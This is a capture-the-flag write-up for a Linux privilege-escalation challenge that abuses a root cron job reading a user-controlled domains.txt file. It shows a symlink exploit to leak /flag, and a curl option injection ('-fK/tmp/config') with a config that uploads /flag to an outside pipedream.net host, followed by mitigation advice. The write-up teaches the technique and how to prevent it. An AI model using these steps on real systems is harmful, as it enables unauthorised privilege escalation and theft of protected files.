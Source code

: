 ```yaml
---
title: Hoster
author: Adrian Junge
description: You gained access to a Linux server. Can you also gain privileges?
categories:
    - PrivEsc
year: 2024
challengefiles:
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** SSH access as low privileged user - `/flag` is only accessible as root
    **- Key Discoveries:** Identifying root cron job via **PSPY** running `dig` and `curl` commands
    **- Vulnerability:** Cron job relying on `/config/domains.txt` is accessible by low privileged user
    **- Exploitation Variant 1:** Creating symlink `/config/domains.txt` to `/flag`
    **- Exploitation Variant 2:** Command option injection using `-K/tmp/config` to upload the flag by the used `curl`

# 1. Introduction<a id="introduction"></a>
The description of this challenge already reveals what kind of ctf type this is gonna be about:

```
You gained access to a Linux server. Can you also gain privileges?
```

# 2. Reconnaissance<a id="reconnaissance"></a>
As you can already read in the challenge description, this challenge is all about privilege escalation on a Linux server. This means you start as a low-privilege user and have to elevate your privileges to root. All you get is SSH access to the challenge machine. You just start as a low-privileged ctf user. Looking around you find the following information: The flag is in the root directory in the `/flag` file which only the root user has read and write access to. So somehow you have to get root to read the flag file and give the content to us. In your home directory in `/config` is a file `domains.txt` but you don’t have enough permissions to read or edit the file. By having a look at the running processes you can see that the cron daemon is running:

![psauxw](ctf/writeups/cscg/hoster/psauxw.png "psauxw")

But nothing is going on in `/etc/crontab` where usually cronjobs are written. So there might be a hidden cronjob running under root. So how can you find out what the cronjob is doing? There is a beautiful tool named **PSPY** snooping all running processes without needing any root permissions. So you can see which commands are being run by other users and cron jobs. Downloading the script from [PSYP](https://github.com/DominicBreuker/pspy) and running it reveals the root cron job:

![pspy](ctf/writeups/cscg/hoster/pspy.png "pspy")

It seems like the cron job is simply running the `request_certificates.sh` script. All this script does is to iterate over each line of your `domains.txt` checking for a valid certificate and then executing the curl command:

```bash
#!/bin/bash

for file in /var/www/*; do
    echo "$file"
    if [ -f $file/config/domains.txt ]
    then
        while IFS="" read -r p || [ -n "$p" ]
        do
            if ( dig "$p" | grep -q 'NXDOMAIN' ) || ( dig "$p" 2>&1 | grep -q 'Invalid' ) || ( dig "$p" | grep -q 'SERVFAIL' )
            then
                echo "[-] Error resolving the domain"
            else
                curl -I "$p"
                # certbot -d "$p"
            fi
        done < $file/config/domains.txt
    else
        echo "[-] Not a file"
    fi
fi
```

So having a look again at the output of **PSPY** the `domains.txt` must contain a line *cscg.de* which is part of the arguments for the curl command.


# 3. Vulnerability Description<a id="vulnerability description"></a>
My initial thoughts were some kind of bash command injection via the *$file* in the first if statement. But sadly you can’t create or edit any directories in `/var/www/` so this won’t work. After playing around for some time I figured out that you can just remove the whole `/config` directory with `rm -rf /config` because you have full permissions over your home directory. So you can just create a new directory `/config` and add your version of the `domains.txt`. Now you have full control over the `domains.txt` and so full control over what is being executed as a command parameter for `dig` and `curl` in the `request_certificates.sh` script.


# 4. Exploitation<a id="exploitation"></a>
## 4.1. Exploitation Variant 1<a id="exploitation variant 1"></a>
My approach was exploiting the script via a symlink with `ln -s  /flag config/domains.txt` pointing to `/flag` so the script would read the content of your flag file and give it as a parameter to the dig command. By running **PSPY** you will just see the dig command being executed with the flag as the parameter. Of course, there are other possible solutions to reveal the flag by `for (( ; ; )); do ps aux >> log; done` effectively spamming `ps aux` and searching for the flag prefix or writing some small script doing this for you:

```bash
search_string="CSCG"
while true; do
    ps_output=$(ps aux)
    if [[ "$ps_output" == *"$search_string"* ]]; then
            echo $ps_output
            break;
    fi
done
```

## 4.2. Exploitation Variant 2<a id="exploitation variant 2"></a>
The intended solution was about command option injection. The problem was to find a parameter fitting both the dig and the `curl` commands and eventually upload the content of `/flag` to your server. With the -K option for `curl` you can define a path of a config file being used by `curl`. But there is a little problem with this parameter. The `dig` command doesn’t have an option -K so the if statement around `dig` in the script will fail. You need another option that won’t result in an output of dig containing *NXDOMAIN*, *Invalid* and *SERVFAIL*. Additionally, this option has to be a valid option for the `curl` command. There were multiple options like the `-f` argument which is the option for a silent fail in `curl` and the option to define a file path for `dig` to interact with. By defining a config file for curl with content like

```bash
echo "-fK/tmp/config" > config/domains.txt
cat <<EOF > /tmp/config
url = https://...pipedream.net
upload-file = /flag
EOF
```

the cronjob will eventually upload the file to your server

![flag-requestbin](ctf/writeups/cscg/hoster/flag_requestbin.png "flag-requestbin")


# 5. Mitigation<a id="mitigation"></a>
At first, you shouldn’t use root cron jobs if not necessary. In this case, a cron job executed by a low-privilege user would have done the job as well by giving the user reading permissions to the `domains.txt` or making it readable for only this user. Another problem was the access the low-privilege ctf user had to the directory where the `domains.txt` was placed. When using a root cron job which interacts with some files always make sure that the files and the parent directories are only accessible by root. If you have to place the file in a directory controlled by another user make the file immutable. It will stay there even when the user tries to modify the directory.

# 6. Flag<a id="flag"></a>
CSCG{1nject1ng\_0pti0ns\_1nste4d\_of\_c0mm4nds}


# 7. References<a id="references"></a>
- [PSPY](https://github.com/DominicBreuker/pspy)
